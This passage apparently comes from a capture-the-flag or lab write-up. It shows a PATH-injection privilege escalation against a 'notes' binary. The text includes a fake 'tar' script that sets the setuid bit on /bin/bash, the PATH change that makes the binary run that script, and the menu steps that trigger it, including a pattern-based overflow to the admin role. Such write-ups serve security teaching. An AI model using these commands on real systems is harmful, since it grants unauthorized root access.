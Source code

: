 ## EXPLOIT 3 - PATH INJECTION

Confirming that we were able to give the user the **"admin"** role, a malicious **"tar"** file was created in the **"/tmp"** directory.

The file contained the following contents

```sh
#!/bin/bash
chmod +s /bin/bash
```

The file was changed to be executable and the **"PATH"** was also updated to run it:

```sh
chmod +x tar
export PATH=`pwd`:$PATH
```

![](screenshots/22-tar-path-injection.png)

Then the exploit was perfomed by running **"/usr/local/bin/notes"** with the following options order:

1. Create new user with option 1.
2. Delete new user with option 3.
3. Create new note with option 4.
4. Supply note contents **"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7admin"**.
5. Backup note with option 8 (to trigger **"tar"**).
6. Exit application with option 9.

